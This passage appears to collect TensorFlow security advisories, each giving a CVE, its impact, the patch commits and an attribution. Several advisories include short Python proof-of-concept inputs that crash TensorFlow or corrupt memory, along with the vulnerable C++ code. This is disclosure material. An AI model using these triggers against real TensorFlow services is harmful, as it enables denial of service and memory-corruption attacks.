We have patched the issue in GitHub commits [6d94002a09711d297dbba90390d5482b76113899](https://github.com/tensorflow/tensorflow/commit/6d94002a09711d297dbba90390d5482b76113899) (merging [#51359](https://github.com/tensorflow/tensorflow/pull/51359)) and [1b0e0ec27e7895b9985076eab32445026ae5ca94](https://github.com/tensorflow/tensorflow/commit/1b0e0ec27e7895b9985076eab32445026ae5ca94) (merging [#51711](https://github.com/tensorflow/tensorflow/pull/51711)).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported externally via [GitHub issue](https://github.com/tensorflow/tensorflow/issues/46912), [GitHub issue](https://github.com/tensorflow/tensorflow/issues/46899) and [GitHub issue](https://github.com/tensorflow/tensorflow/issues/46889).
## TFSA-2020-033: CHECK-fail in LSTM with zero-length input

### CVE Number
CVE-2020-26270

### Impact
Running an LSTM/GRU model where the LSTM/GRU layer receives an input with
zero-length results in a `CHECK` failure when using the CUDA backend.

This can result in a query-of-death vulnerability, via denial of service, if
users can control the input to the layer.

### Patches

We have patched the issue in GitHub commit
[14755416e364f17fb1870882fa778c7fec7f16e3](https://github.com/tensorflow/tensorflow/commit/14755416e364f17fb1870882fa778c7fec7f16e3)
and will release TensorFlow 2.4.0 containing the patch. TensorFlow nightly
packages after this commit will also have the issue resolved.

Since this issue also impacts TF versions before 2.4, we will patch all releases
between 1.15 and 2.3 inclusive.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.
## TFSA-2021-185: Heap OOB read in all `tf.raw_ops.QuantizeAndDequantizeV*` ops

### CVE Number
CVE-2021-41205

### Impact
The [shape inference functions for the `QuantizeAndDequantizeV*` operations](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/ops/array_ops.cc) can trigger a read outside of bounds of heap allocated array as illustrated in the following sets of PoCs:

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV4Grad(
    gradients=[1.0,1.0],
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    axis=-100)
  return data

test()
```

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV4(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    round_mode='HALF_TO_EVEN',
    narrow_range=False,
    axis=-100)
  return data

test()
```

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV3(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    narrow_range=False,
    axis=-100)
  return data

test()
```

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV2(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    round_mode='HALF_TO_EVEN',
    narrow_range=False,
    axis=-100)
  return data

test()
```

In all of these cases, `axis` is a negative value different than the special value used for optional/unknown dimensions (i.e., -1). However, the code ignores the occurences of these values:

```cc
...
if (axis != -1) {
  ...
  c->Dim(input, axis);
  ...
}
```

### Patches
We have patched the issue in GitHub commit [7cf73a2274732c9d82af51c2bc2cf90d13cd7e6d](https://github.com/tensorflow/tensorflow/commit/7cf73a2274732c9d82af51c2bc2cf90d13cd7e6d).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-193: Missing validation during checkpoint loading

### CVE Number
CVE-2021-41203

### Impact
An attacker can trigger undefined behavior, integer overflows, segfaults and `CHECK`-fail crashes if they can change saved checkpoints from outside of TensorFlow.

This is because the checkpoints loading infrastructure is missing validation for invalid file formats.

### Patches
We have patched the issue in GitHub commits [b619c6f865715ca3b15ef1842b5b95edbaa710ad](https://github.com/tensorflow/tensorflow/commit/b619c6f865715ca3b15ef1842b5b95edbaa710ad), [e8dc63704c88007ee4713076605c90188d66f3d2](https://github.com/tensorflow/tensorflow/commit/e8dc63704c88007ee4713076605c90188d66f3d2), [368af875869a204b4ac552b9ddda59f6a46a56ec](https://github.com/tensorflow/tensorflow/commit/368af875869a204b4ac552b9ddda59f6a46a56ec), and [abcced051cb1bd8fb05046ac3b6023a7ebcc4578](https://github.com/tensorflow/tensorflow/commit/abcced051cb1bd8fb05046ac3b6023a7ebcc4578).

These fixes will be included in TensorFlow 2.7.0. We will also cherrypick these commits on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.
## TFSA-2021-038: Division by 0 in `FractionalAvgPool`

### CVE Number
CVE-2021-29550

### Impact
An attacker can cause a runtime division by zero error and denial of service in
`tf.raw_ops.FractionalAvgPool`:

```python
import tensorflow as tf

value = tf.constant([60], shape=[1, 1, 1, 1], dtype=tf.int32)
pooling_ratio = [1.0, 1.0000014345305555, 1.0, 1.0]
pseudo_random = False
overlapping = False
deterministic = False
seed = 0
seed2 = 0

tf.raw_ops.FractionalAvgPool(
  value=value, pooling_ratio=pooling_ratio, pseudo_random=pseudo_random,
  overlapping=overlapping, deterministic=deterministic, seed=seed, seed2=seed2)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/acc8ee69f5f46f92a3f1f11230f49c6ac266f10c/tensorflow/core/kernels/fractional_avg_pool_op.cc#L85-L89)
computes a divisor quantity by dividing two user controlled values:

```cc
for (int i = 0; i < tensor_in_and_out_dims; ++i) {
  output_size[i] = static_cast<int>(std::floor(input_size[i] / pooling_ratio_[i]));
  DCHECK_GT(output_size[i], 0);
}
```

The user controls the values of `input_size[i]` and `pooling_ratio_[i]` (via the
`value.shape()` and `pooling_ratio` arguments). If the value in `input_size[i]`
is smaller than the `pooling_ratio_[i]`, then the floor operation results in
`output_size[i]` being 0. The `DCHECK_GT` line is a no-op outside of debug mode,
so in released versions of TF this does not trigger.

Later, these computed values [are used as
arguments](https://github.com/tensorflow/tensorflow/blob/acc8ee69f5f46f92a3f1f11230f49c6ac266f10c/tensorflow/core/kernels/fractional_avg_pool_op.cc#L96-L99)
to
[`GeneratePoolingSequence`](https://github.com/tensorflow/tensorflow/blob/acc8ee69f5f46f92a3f1f11230f49c6ac266f10c/tensorflow/core/kernels/fractional_pool_common.cc#L100-L108).
There, the first computation is a division in a modulo operation:

```cc
std::vector<int64> GeneratePoolingSequence(int input_length, int output_length,
                                           GuardedPhiloxRandom* generator,
                                           bool pseudo_random) {
  ...
  if (input_length % output_length == 0) {
    diff = std::vector<int64>(output_length, input_length / output_length);
  }
  ...
}
```

Since `output_length` can be 0, this results in runtime crashing.

### Patches
We have patched the issue in GitHub commit
[548b5eaf23685d86f722233d8fbc21d0a4aecb96](https://github.com/tensorflow/tensorflow/commit/548b5eaf23685d86f722233d8fbc21d0a4aecb96).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2020-013: Format-string vulnerability in TensorFlow's `as_string`

### CVE Number
CVE-2020-15203

### Impact
By controlling the `fill` argument of
[`tf.strings.as_string`](https://www.tensorflow.org/api_docs/python/tf/strings/as_string),
a malicious attacker is able to trigger a format string vulnerability due to the
way the internal format use in a `printf` call is
[constructed](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/core/kernels/as_string_op.cc#L68-L74):
```cc
    format_ = "%";
    if (width > -1) {
      strings::Appendf(&format_, "%s%d", fill_string.c_str(), width);
    }
    if (precision > -1) {
      strings::Appendf(&format_, ".%d", precision);
    }
```

This can result in unexpected output:
```python
In [1]: tf.strings.as_string(input=[1234], width=6, fill='-')
Out[1]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['1234  '],
dtype=object)>
In [2]: tf.strings.as_string(input=[1234], width=6, fill='+')
Out[2]: <tf.Tensor: shape=(1,), dtype=string, numpy=array([' +1234'],
dtype=object)>
In [3]: tf.strings.as_string(input=[1234], width=6, fill="h")
Out[3]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['%6d'],
dtype=object)>
In [4]: tf.strings.as_string(input=[1234], width=6, fill="d")
Out[4]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['12346d'],
dtype=object)>
In [5]: tf.strings.as_string(input=[1234], width=6, fill="o")
Out[5]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['23226d'],
dtype=object)>
In [6]: tf.strings.as_string(input=[1234], width=6, fill="x")
Out[6]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['4d26d'],
dtype=object)>
In [7]: tf.strings.as_string(input=[1234], width=6, fill="g")
Out[7]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['8.67458e-3116d'],
dtype=object)>
In [8]: tf.strings.as_string(input=[1234], width=6, fill="a")
Out[8]: <tf.Tensor: shape=(1,), dtype=string,
numpy=array(['0x0.00ff7eebb4d4p-10226d'], dtype=object)>
In [9]: tf.strings.as_string(input=[1234], width=6, fill="c")
Out[9]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['\xd26d'],
dtype=object)>
In [10]: tf.strings.as_string(input=[1234], width=6, fill="p")
Out[10]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['0x4d26d'],
dtype=object)>
In [11]: tf.strings.as_string(input=[1234], width=6, fill='m')
Out[11]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['Success6d'],
dtype=object)>
```

However, passing in `n` or `s` results in segmentation fault.

### Vulnerable Versions
TensorFlow 1.15.0, 1.15.1, 1.15.2, 1.15.3, 2.0.0, 2.0.1, 2.0.2, 2.1.0, 2.1.1,
2.2.0, 2.3.0.

### Patches
We have patched the issue in
[33be22c65d86256e6826666662e40dbdfe70ee83](https://github.com/tensorflow/tensorflow/commit/33be22c65d86256e6826666662e40dbdfe70ee83)
and will release patch releases for all versions between 1.15 and 2.3.

We recommend users to upgrade to TensorFlow 1.15.4, 2.0.3, 2.1.2, 2.2.1, or
2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-162: Null pointer dereference in TFLite

### CVE Number
CVE-2021-37688

### Impact
An attacker can craft a TFLite model that would trigger a null pointer
dereference, which would result in a crash and denial of service:

```python
import tensorflow as tf

model = tf.keras.models.Sequential()
model.add(tf.keras.Input(shape=(1, 2, 3)))
model.add(tf.keras.layers.Dense(0, activation='relu'))

converter = tf.lite.TFLiteConverter.from_keras_model(model)
tflite_model = converter.convert()

interpreter = tf.lite.Interpreter(model_content=tflite_model)
interpreter.allocate_tensors()

interpreter.invoke()
```

The [
implementation](https://github.com/tensorflow/tensorflow/blob/149562d49faa709ea80df1d99fc41d005b81082a/tensorflow/lite/kernels/internal/optimized/optimized_ops.h#L268-L285)
unconditionally dereferences a pointer.

```cc
  if (y4 > 1) {
    // ...
  } else {
    for (int i0 = 0; i0 < y0; ++i0) {
      const T* input2_data_ptr = nullptr;
      for (int i1 = 0; i1 < y1; ++i1) {
        input2_data_ptr = input2_data_reset;
        for (int i2 = 0; i2 < y2; ++i2) {
          scalar_broadcast_f(y3, params, *input1_data_ptr, input2_data_ptr,
                             output_data_ptr);
        }
      }
    }
  }
```

### Patches
We have patched the issue in GitHub commit
[15691e456c7dc9bd6be203b09765b063bf4a380c](https://github.com/tensorflow/tensorflow/commit/15691e456c7dc9bd6be203b09765b063bf4a380c).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
## TFSA-2021-189: Incomplete validation in boosted trees code

### CVE Number
CVE-2021-41208

### Impact
The [code for boosted trees in TensorFlow](https://github.com/tensorflow/tensorflow/blob/e0b6e58c328059829c3eb968136f17aa72b6c876/tensorflow/core/kernels/boosted_trees/stats_ops.cc) is still missing validation. As a result, attackers can trigger denial of service (via dereferencing `nullptr`s or via `CHECK`-failures) as well as abuse undefined behavior (binding references to `nullptr`s). An attacker can also read and write from heap buffers, depending on the API that gets used and the arguments that are passed to the call.

**Note**: Given that the boosted trees implementation in TensorFlow is unmaintained, it is recommend to no longer use these APIs.  Instead, please use the downstream [TensorFlow Decision Forests](https://github.com/tensorflow/decision-forests) project which is newer and supports more features. We will deprecate TensorFlow's boosted trees APIs in subsequent releases.

### Patches
We have patched the issue in GitHub commit [5c8c9a8bfe750f9743d0c859bae112060b216f5c](https://github.com/tensorflow/tensorflow/commit/5c8c9a8bfe750f9743d0c859bae112060b216f5c).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2020-006: Segmentation fault and/or data corruption due to invalid TFLite model

### CVE Number
CVE-2020-15210

### Impact
If a TFLite saved model uses the same tensor as both input and output of an
operator, then, depending on the operator, we can observe a segmentation fault
or just memory corruption.

### Vulnerable Versions
TensorFlow 1.15.0, 1.15.1, 1.15.2, 1.15.3, 2.0.0, 2.0.1, 2.0.2, 2.1.0, 2.1.1,
2.2.0, 2.3.0.

### Patches
We have patched the issue in
[d58c96946b](https://github.com/tensorflow/tensorflow/commit/d58c96946b) and
will release patch releases for all versions between 1.15 and 2.3.

We recommend users to upgrade to TensorFlow 1.15.4, 2.0.3, 2.1.2, 2.2.1, or
2.3.1.

### Workarounds
A potential workaround would be to add a custom `Verifier` to the model loading
code to ensure that no operator reuses tensors as both inputs and outputs. Care
should be taken to check all types of inputs (i.e., constant or variable tensors
as well as optional tensors).

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been discovered through a variant analysis of [a
vulnerability reported by members of the Aivul Team from Qihoo
360](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-005.md).
## TFSA-2021-120: Bad alloc in `StringNGrams` caused by integer conversion

### CVE Number
CVE-2021-37646

### Impact
The implementation of `tf.raw_ops.StringNGrams` is vulnerable to
an integer overflow issue caused by converting a signed integer value to an
unsigned one and then allocating memory based on this value.

```python
import tensorflow as tf

tf.raw_ops.StringNGrams(
  data=['',''],
  data_splits=[0,2],
  separator=' '*100,
  ngram_widths=[-80,0,0,-60],
  left_pad=' ',
  right_pad=' ',
  pad_width=100,
  preserve_short_sequences=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/string_ngrams_op.cc#L184)
calls `reserve` on a `tstring` with a value that sometimes can be negative if
user supplies negative `ngram_widths`. The `reserve` method calls
`TF_TString_Reserve` which has an `unsigned long` argument for the size of the
buffer. Hence, the implicit conversion transforms the negative value to a large
integer.

### Patches
We have patched the issue in GitHub commit
[c283e542a3f422420cfdb332414543b62fc4e4a5](https://github.com/tensorflow/tensorflow/commit/c283e542a3f422420cfdb332414543b62fc4e4a5).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-181: Null pointer exception in `DeserializeSparse`

### CVE Number
CVE-2021-41215

### Impact
The [shape inference code for `DeserializeSparse`](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/ops/sparse_ops.cc#L152-L168) can trigger a null pointer dereference:

```python
import tensorflow as tf

dataset = tf.data.Dataset.range(3)

@tf.function
def test():
  y = tf.raw_ops.DeserializeSparse(
    serialized_sparse=tf.data.experimental.to_variant(dataset),
    dtype=tf.int32)

test()
```

This is because the shape inference function assumes that the `serialize_sparse` tensor is a tensor with positive rank (and having `3` as the last dimension).  However, in the example above, the argument is a scalar (i.e., rank 0).

### Patches
We have patched the issue in GitHub commit [d3738dd70f1c9ceb547258cbb82d853da8771850](https://github.com/tensorflow/tensorflow/commit/d3738dd70f1c9ceb547258cbb82d853da8771850).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2020-007: Null pointer dereference in TFLite

### CVE Number
CVE-2020-15209

### Impact
A crafted TFLite model can force a node to have as input a tensor backed by a
`nullptr` buffer. This can be achieved by changing a buffer index in the
flatbuffer serialization to convert a read-only tensor to a read-write one. The
runtime assumes that these buffers are written to before a possible read, hence
they are [initialized with
`nullptr`](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/lite/core/subgraph.cc#L1224-L1227):
```cc
  TfLiteTensorReset(type, name, ConvertArrayToTfLiteIntArray(rank, dims),
                    GetLegacyQuantization(quantization),
                    /*buffer=*/nullptr, required_bytes, allocation_type,
                    nullptr, is_variable, &tensor);
```

However, by changing the buffer index for a tensor and implicitly converting
that tensor to be a read-write one, as there is nothing in the model that writes
to it, we get a null pointer dereference.

### Vulnerable Versions
TensorFlow 1.15.0, 1.15.1, 1.15.2, 1.15.3, 2.0.0, 2.0.1, 2.0.2, 2.1.0, 2.1.1,
2.2.0, 2.3.0.

### Patches
We have patched the issue in
[0b5662bc](https://github.com/tensorflow/tensorflow/commit/0b5662bc) and will
release patch releases for all versions between 1.15 and 2.3.

We recommend users to upgrade to TensorFlow 1.15.4, 2.0.3, 2.1.2, 2.2.1, or
2.3.1.

### Workarounds
A potential workaround would be to add a custom `Verifier` to the model loading
code to ensure that no operator reuses tensors as both inputs and outputs. Care
should be taken to check all types of inputs (i.e., constant or variable tensors
as well as optional tensors).

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been discovered by members of the Aivul Team and is also
discoverable through a variant analysis of [another
vulnerability reported by members of the Aivul Team from Qihoo
360](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-005.md).
## TFSA-2021-010: Heap buffer overflow in `Conv3DBackprop*`

### CVE Number
CVE-2021-29520

### Impact
Missing validation between arguments to `tf.raw_ops.Conv3DBackprop*` operations
can result in heap buffer overflows:

```python
import tensorflow as tf

input_sizes = tf.constant([1, 1, 1, 1, 2], shape=[5], dtype=tf.int32)
filter_tensor = tf.constant([734.6274508233133, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0,
                            -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0,
                            -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0], shape=[4, 1, 6, 1, 1], dtype=tf.float32)
out_backprop = tf.constant([-10.0], shape=[1, 1, 1, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropInputV2(input_sizes=input_sizes, filter=filter_tensor, out_backprop=out_backprop, strides=[1, 89, 29, 89, 1], padding='SAME', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```
```python
import tensorflow as tf

input_values = [-10.0] * (7 * 7 * 7 * 7 * 7)
input_values[0] = 429.6491056791816
input_sizes = tf.constant(input_values, shape=[7, 7, 7, 7, 7], dtype=tf.float32)
filter_tensor = tf.constant([7, 7, 7, 1, 1], shape=[5], dtype=tf.int32)
out_backprop = tf.constant([-10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0], shape=[7, 1, 1, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropFilterV2(input=input_sizes, filter_sizes=filter_tensor, out_backprop=out_backprop, strides=[1, 37, 65, 93, 1], padding='VALID', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/4814fafb0ca6b5ab58a09411523b2193fed23fed/tensorflow/core/kernels/conv_grad_shape_utils.cc#L94-L153)
assumes that the `input`, `filter_sizes` and `out_backprop` tensors have the
same shape, as they are accessed in parallel.

### Patches
We have patched the issue in GitHub commit
[8f37b52e1320d8d72a9529b2468277791a261197](https://github.com/tensorflow/tensorflow/commit/8f37b52e1320d8d72a9529b2468277791a261197).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2020-005: Out of bounds access in TFLite operators

### CVE Number
CVE-2020-15211

### Impact
In TensorFlow Lite, saved models in the flatbuffer format use a double indexing
scheme: a model has a set of subgraphs, each subgraph has a set of operators and
each operator has a set of input/output tensors. The flatbuffer format uses
indices for the tensors, indexing into an array of tensors that is owned by the
subgraph. This results in a pattern of double array indexing when trying to
[get the data of each
tensor](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/lite/kernels/kernel_util.cc#L36):
```cc
  return &context->tensors[node->inputs->data[index]];
```

However, some operators can have some tensors be optional. To handle this
scenario, the flatbuffer model uses a negative `-1` value as [index for these tensors](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/lite/c/common.h#L82):
```cc
#define kTfLiteOptionalTensor (-1)
```

This results in [special casing during validation at model loading
time](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/lite/core/subgraph.cc#L566-L580):
```cc
  for (int i = 0; i < length; i++) {
    int index = indices[i];
    // Continue if index == kTfLiteOptionalTensor before additional comparisons
    // below, size_t(-1) is always >= context_tensors_size.
    if (index == kTfLiteOptionalTensor) {
      continue;
    }
    if (index < 0 || static_cast<size_t>(index) >= context_.tensors_size) {
      ReportError(
          "Invalid tensor index %d in %s. The subgraph has %d tensors\n", index,
          label, context_.tensors_size);
      consistent_ = false;
      return kTfLiteError;
    }
  }
```

Unfortunately, this means that the `-1` index is a valid tensor index for any
operator, including those that don't expect optional inputs and including for
output tensors. Thus, this allows writing and reading from outside the bounds of
heap allocated arrays, although only at a specific offset from the start of
these arrays.

This results in both read and write gadgets, albeit very limited in scope.

### Vulnerable Versions
TensorFlow 1.15.0, 1.15.1, 1.15.2, 1.15.3, 2.0.0, 2.0.1, 2.0.2, 2.1.0, 2.1.1,
2.2.0, 2.3.0.

### Patches
We have patched the issue in several commits
([46d5b0852](https://github.com/tensorflow/tensorflow/commit/46d5b0852),
[00302787b7](https://github.com/tensorflow/tensorflow/commit/00302787b7),
[e11f5558](https://github.com/tensorflow/tensorflow/commit/e11f5558),
[cd31fd0ce](https://github.com/tensorflow/tensorflow/commit/cd31fd0ce),
[1970c21](https://github.com/tensorflow/tensorflow/commit/1970c21), and
[fff2c83](https://github.com/tensorflow/tensorflow/commit/fff2c83)). We will
release patch releases for all versions between 1.15 and 2.3.

We recommend users to upgrade to TensorFlow 1.15.4, 2.0.3, 2.1.2, 2.2.1, or
2.3.1.

### Workarounds
A potential workaround would be to add a custom `Verifier` to the model loading
code to ensure that only operators which accept optional inputs use the `-1`
special value and only for the tensors that they expect to be optional. Since
this allow-list type approach is erro-prone, we advise upgrading to the patched
code.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2020-010: Incomplete validation in TensorFlow's SavedModel's constant nodes causes segfaults

### CVE Number
CVE-2020-15206

### Impact
Changing the TensorFlow's `SavedModel` protocol buffer and altering the name of
required keys results in segfaults and data corruption while loading the model.
This can cause a denial of service in products using `tensorflow-serving` or
other inference-as-a-service installments.

We have added fixes to this in
[f760f88b4267d981e13f4b302c437ae800445968](https://github.com/tensorflow/tensorflow/commit/f760f88b4267d981e13f4b302c437ae800445968)
and
[fcfef195637c6e365577829c4d67681695956e7d](https://github.com/tensorflow/tensorflow/commit/fcfef195637c6e365577829c4d67681695956e7d)
(both going into TensorFlow 2.2.0 and 2.3.0 but not yet backported to earlier
versions). However, this was not enough, as #41097 reports a different failure
mode.

### Vulnerable Versions
TensorFlow 1.15.0, 1.15.1, 1.15.2, 1.15.3, 2.0.0, 2.0.1, 2.0.2, 2.1.0, 2.1.1,
2.2.0, 2.3.0.

### Patches
We have patched the issue in
[adf095206f25471e864a8e63a0f1caef53a0e3a6](https://github.com/tensorflow/tensorflow/commit/adf095206f25471e864a8e63a0f1caef53a0e3a6)
and will release patch releases for all versions between 1.15 and 2.3. Patch
releases for versions between 1.15 and 2.1 will also contain cherry-picks of
[f760f88b4267d981e13f4b302c437ae800445968](https://github.com/tensorflow/tensorflow/commit/f760f88b4267d981e13f4b302c437ae800445968)
and
[fcfef195637c6e365577829c4d67681695956e7d](https://github.com/tensorflow/tensorflow/commit/fcfef195637c6e365577829c4d67681695956e7d).

We recommend users to upgrade to TensorFlow 1.15.4, 2.0.3, 2.1.2, 2.2.1, or
2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Shuaike Dong, from Alipay Tian Qian
Security Lab && Lab for Applied Security Research, CUHK.
## TFSA-2021-159: Infinite loop in TFLite

### CVE Number
CVE-2021-37686

### Impact
The strided slice implementation in TFLite has a logic bug which can allow an
attacker to trigger an infinite loop. This arises from newly introduced support
for [ellipsis in axis
definition](https://github.com/tensorflow/tensorflow/blob/149562d49faa709ea80df1d99fc41d005b81082a/tensorflow/lite/kernels/strided_slice.cc#L103-L122):

```cc
  for (int i = 0; i < effective_dims;) {
    if ((1 << i) & op_context->params->ellipsis_mask) {
      // ...
      int ellipsis_end_idx =
          std::min(i + 1 + num_add_axis + op_context->input_dims - begin_count,
                   effective_dims);
      // ...
      for (; i < ellipsis_end_idx; ++i) {
        // ...
      }
      continue;
    }
    // ...
    ++i;
  }
```

An attacker can craft a model such that `ellipsis_end_idx` is smaller than `i`
(e.g., always negative). In this case, the inner loop does not increase `i` and
the `continue` statement causes execution to skip over the preincrement at the
end of the outer loop.

### Patches
We have patched the issue in GitHub commit
[dfa22b348b70bb89d6d6ec0ff53973bacb4f4695](https://github.com/tensorflow/tensorflow/commit/dfa22b348b70bb89d6d6ec0ff53973bacb4f4695).

The fix will be included in TensorFlow 2.6.0. This is the only affected version.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-082: Division by zero in TFLite's convolution code

### CVE Number
CVE-2021-29594

### Impact
TFLite's [convolution
code](https://github.com/tensorflow/tensorflow/blob/09c73bca7d648e961dd05898292d91a8322a9d45/tensorflow/lite/kernels/conv.cc)
has multiple division where the divisor is controlled by the user and not
checked to be non-zero. For example:

```cc
const int input_size = NumElements(input) / SizeOfDimension(input, 0);
```

### Patches
We have patched the issue in GitHub commit
[ff489d95a9006be080ad14feb378f2b4dac35552](https://github.com/tensorflow/tensorflow/commit/ff489d95a9006be080ad14feb378f2b4dac35552).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
